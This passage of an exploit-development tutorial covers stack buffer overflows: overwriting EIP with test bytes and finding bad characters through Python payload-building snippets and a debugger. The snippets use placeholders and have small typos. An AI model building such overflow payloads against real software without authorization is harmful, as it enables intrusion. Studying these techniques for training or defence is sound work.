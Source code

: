 ### Controlling EIP 

Now that we know where the EIP start, the 4 bytes after this will be inside of the EIP.


```pytohn
def eip_control():
    offset = <bytes to EIP>
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open'<file name>', 'wb') as f:
        f.write(payload)

eip_control()
```

Using the `eip_control()` function we can see that our **EIP** will change to `42424242`, that means `B`. Therefore we have control over the **EIP**. Therefore we have control over the **EIP**.

## Identifying Bad Characters

We need to determine any characters we should avoid using in our payload. A very common bad character is a **null byte** `0x00`, used in Assembly as a string terminator, which tells the processor the string has ended. 

We can create all the characters with:
```
ERC --bytearray
```

We can add a new function to our Python script:
```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = <bytes>
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('<file>', 'wb') as f:
        f.write(payload)

bad_chars()
```

Load the file with all the characters. At the bottom right of **x64dgb** we can check the **stack**. Go manually through the stack line by line, checking which characters doesn't appear.
